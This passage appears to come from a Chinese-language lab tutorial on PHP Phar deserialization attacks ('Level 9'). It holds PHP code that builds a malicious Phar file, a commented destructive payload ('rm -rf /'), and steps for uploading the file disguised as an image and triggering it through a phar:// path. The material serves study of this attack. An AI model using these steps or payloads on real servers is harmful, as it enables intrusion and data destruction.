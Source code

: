        @unlink("malicious.phar"); // Clean up previous file
        
        // Create Phar object
        $phar = new Phar("malicious.phar"); 
        $phar->startBuffering();
        
        // Set stub (mandatory part)
        $phar->setStub("<?php __HALT_COMPILER(); ?>"); 
        
        // Create the vulnerable object with payload
        $obj = new TargetClass();
        $obj->data = "/var/www/html/pwned.txt"; // Payload data
        // Or: $obj->data = "rm -rf /"; 
        
        // Set the object as metadata (this gets unserialized)
        $phar->setMetadata($obj); 
        
        // Add a dummy file (required to create a valid Phar)
        $phar->addFromString("test.txt", "test data"); 
        
        $phar->stopBuffering();
        
        echo "malicious.phar created.\n";
        ?>
        ```
    3.  **上传/放置 Phar 文件:** 将生成的 `malicious.phar` 文件上传到目标服务器的可访问位置（例如通过文件上传漏洞），或者使其可通过 SSRF 等方式被服务器的文件操作函数访问。**注意：文件名后缀不重要，可以是 `.jpg`, `.txt` 等，只要内容是 Phar 格式即可。**
    4.  **触发反序列化:** 找到目标应用中调用文件操作函数（如 `file_exists`, `fopen`, `file_get_contents`, `is_dir` 等）的地方，并控制其参数指向上传的 Phar 文件，使用 `phar://` 伪协议包装路径。
        例如，如果存在 `file_exists($_GET['path'])`，则访问 `?path=phar:///path/to/uploaded/malicious.jpg`。
    5.  PHP 文件系统函数处理 `phar://` 路径时，自动解析 Phar 文件，反序列化其元数据（即我们构造的 `$obj`），触发 `TargetClass` 的魔术方法，执行 Payload。
*   **示例 (Level 9 - Phar反序列化):**
    *   假设 `phar.php` 用于生成 Phar 文件，`index.php` 存在文件操作函数。
    ![Phar反序列化 1](./images/ser25.png) (生成 Phar 的代码 phar.php)